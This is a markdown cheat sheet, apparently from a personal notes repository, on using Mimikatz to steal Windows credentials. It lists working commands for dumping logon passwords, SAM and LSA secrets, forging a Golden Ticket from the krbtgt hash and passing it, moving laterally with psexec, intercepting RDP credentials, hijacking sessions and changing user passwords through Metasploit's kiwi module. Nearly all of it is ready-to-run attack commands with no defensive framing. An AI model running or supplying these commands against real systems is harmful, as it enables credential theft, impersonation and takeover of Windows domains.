 [mimiKatz](https://github.com/gentilkiwi/mimikatz) 

# Overview

  - Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
  - Dumps credentials stored in memory.
  - Just a few attacks: Credential Dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket


# Creds dumping

module to bypass memory protection
```
privilege::debug
```

```
sekurlsa::logonpasswords # logged in passwords
```
*Sam dumping*
```
lsadump::sam (to dump sam file)
lsadump::sam /patch
```
*LSA dumping*
```
lsadump::lsa /patch # dumping lsa
```

*Golden Ticket*
```
lsadump::lsa /inject /name:krbtgt (filter wanted user name)
Copy SID of the domain and kerberos NTLM hash
kerberos:golden /User:Administrator or any name /domain:DOMAIN /sid:SID /krbtgt:NTLM HASH /id:500 /ptt (pass the ticket)

misc::cmd (open command line with session we created)

command \\COMPUTER\SHARE or file
e.g.
psexec \\ESabah cmd.exe
 
```

# RDP 

*As the attacker was able to gain the session of the machine, they used Mimikatz and ran the mstsc function inside the ts module. Mstsc is a process that runs when the Remote Desktop service in use. It then intercepts the RDP protocol communication to extract the stored credentials.*

```bash

privielge::debug # checks for my perm to run mimikatz
ts::mstsc # intercept connection to dump creds

```

## Session hijacking

```
privilege::debug # checks for my perm to run mimikatz
ts::sessions # list open sessions
token::elevate #  impersonate token
ts::remote /id:ID_NUMBER # steal session 
```

# On Metasploit

```ruby
# Through Meterpreter session
load kiwi

lsa_dump_sam         #  Dump LSA SAM (Dumps all system users hashes)
lsa_dump_secrets     # Dump LSA secrets (unparsed)
password_change     #   Change the password/hash of a user


```